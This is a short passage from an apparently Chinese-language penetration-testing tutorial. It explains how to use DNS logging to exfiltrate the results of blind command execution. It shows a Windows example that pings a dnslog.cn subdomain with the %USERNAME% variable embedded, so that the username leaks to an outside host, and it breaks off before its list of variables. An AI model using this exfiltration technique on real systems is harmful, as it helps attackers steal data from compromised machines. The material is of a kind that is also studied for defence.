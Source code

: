   
可以通过dnslog外带来获取命令执行后的结果，从而方便我们来判断命令是否执行成功以及进行更深层次的利用。**缺点就是dnslog一般只能带出一条数据。**  
  
Windows环境  
  
  
1. 1.  
     用户变量  
  
使用  
%用户变量  
%来获取信息  
  
ping %USERNAME%.7irz77.dnslog.cn  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFaxRxWqk4WuNGIEiapFSTm1nnwtKeuticWxOqksJ8l9gZsYKgemx1fCsTeHoytLicQWI1l4KYia6N7UQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFaxRxWqk4WuNGIEiapFSTm10VomicoFy1Yoee4AibDvF3HQjs0T4AcNbbaxCSn62NbBmCibeIUyvjnmw/640?wx_fmt=png&from=appmsg "")  
  
  
常用的用户变量如下：  